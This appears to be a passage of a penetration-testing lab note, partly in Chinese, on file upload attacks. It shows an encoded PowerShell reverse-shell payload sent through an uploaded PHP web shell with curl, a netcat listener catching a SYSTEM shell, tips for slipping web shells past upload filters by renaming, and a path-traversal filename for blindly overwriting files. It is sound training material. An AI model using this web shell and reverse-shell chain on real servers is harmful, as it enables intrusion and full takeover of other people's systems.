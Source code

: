 >
>PS> $EncodedText
>JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
>...
>AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHU>AcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
>
>
>PS> exit
> ```

![image](https://hackmd.io/_uploads/HJPAlhhGyg.png)
![image](https://hackmd.io/_uploads/rkrbWnhfkg.png)

以上為了製造 Windows 環境的 PowerShell payload
    
```
┌──(chw㉿CHW-kali)-[/]
└─$ curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

┌──(chw㉿CHW-kali)-[/]
└─$ curl  nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.3] from (UNKNOWN) [192.168.50.189] 50603
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.50.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254

PS C:\xampp\htdocs\meteor\uploads> whoami
nt authority\system
```
**Kali already offers web shells:** `asp`, `aspx`, `cfm`, `jsp`, `laudanum`, `perl`, `php` etc

>[!Tip]
> uploading a file with an innocent file type like `.txt`, then changing the file back to the original file type of the web shell by renaming it.

### 2. Using Non-Executable Files
the web server is no longer using PHP. Let's try to upload a text file.\
modifying the "filename" parameter in the request `../../../../../../../test.txt`
![image](https://hackmd.io/_uploads/Bkg6msaMJx.png)
> we have no way of knowing if the relative path was used for placing the file. \
> (Try to **blindly overwrite files**)

